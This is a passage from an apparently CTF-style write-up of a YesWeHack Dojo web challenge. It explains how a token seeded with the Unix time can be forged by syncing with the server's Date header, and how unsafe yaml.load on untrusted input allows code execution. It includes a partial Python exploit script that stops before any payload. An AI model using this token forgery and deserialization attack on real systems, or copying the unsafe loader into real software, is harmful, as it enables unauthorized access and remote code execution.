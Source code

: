 Because the seed is predictable (based on server time), we can replicate the token generation and obtain a valid `tokenRoot`
#### Token Comparison for Access Control
Access is granted if the guest token matches the root token:
```python
access = bool(tokenGuest == tokenRoot)
```
The trick here is that `tokenRoot` is generated using the current Unix timestamp as the seed. By synchronizing our local time with the server’s time, we can reproduce the exact same token value and bypass this check.
#### Unsafe YAML Deserialization
When `access` is `True`, the code executes:
```python
data = yaml.load(yamlConfig, Loader=yaml.Loader) 
firmware = Firmware(**data["firmware"]) 
firmware.update()
```
The `yaml.load()` function is invoked with `yaml.Loader` instead of `SafeLoader`, which allows the deserialization of arbitrary Python objects. This means we can supply a malicious YAML payload to execute arbitrary code on the server.

Since `yamlConfig` is populated directly from untrusted input via `unquote()`, with no validation or sanitization before deserialization, we have a direct insecure deserialization vector.
## 5- Exploitation
By supplying arbitrary values to both the `token` and `yaml` parameters, we receive the following HTML response:

![w](/assets/img/attachments/Pasted image 20250812154505.png)

The first step is to synchronize our local time with the server’s time, as the token generation relies on the current Unix timestamp.

![w](/assets/img/attachments/Pasted image 20250812154951.png)

Will use date header at our python script to bypass token validation

```python
import requests  
import time  
import random  
from email.utils import parsedate_to_datetime  
from concurrent.futures import ThreadPoolExecutor, as_completed   
import urllib3  
   
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
URL = "https://dojo-yeswehack.com/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"  
  
HEADERS = {  
    "User-Agent": "Mozilla/5.0",  
    "Content-Type": "application/x-www-form-urlencoded;charset=UTF-8",  
    "Origin": "https://dojo-yeswehack.com",  
    "Referer": "https://dojo-yeswehack.com/challenge-of-the-month/dojo-43",  
    "Cookie": "add your cookies"  
}  
  
def genToken(seed: int) -> str:  
    random.seed(seed)  
    return ''.join(random.choices('abcdef0123456789', k=16))  
  
def get_server_time():  
    r = requests.head(URL, headers=HEADERS)  
    server_date = r.headers.get("Date")  
    if not server_date:  
        raise Exception("No Date header found")  
```